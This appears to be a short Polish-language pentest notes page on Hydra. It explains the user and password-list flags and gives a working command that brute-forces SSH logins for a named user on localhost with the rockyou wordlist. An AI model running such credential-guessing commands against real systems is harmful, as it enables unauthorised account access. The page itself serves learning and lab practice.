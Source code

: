 ```yaml
---
layout:
  title:
    visible: false
  description:
    visible: false
  tableOfContents:
    visible: false
  outline:
    visible: false
  pagination:
    visible: false
---
```


# hydra - crackowanie loginów stron

{% code fullWidth="true" %}
```
#crackowanie hasła antyjanusza na stronie 127.0.0.1 przy użyciu 4 wątków jednocześnie
-l - pojedynczy użytkownik
-L - lista użytkowników czyli musimy się odwołać do pliku tekstowego
-p - pojedyncze hasło
-P - lista haseł czyli musimy się odwołać do pliku tekstowego

sudo hydra -l antyjanusz -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -t 4 ssh -v
```
{% endcode %}
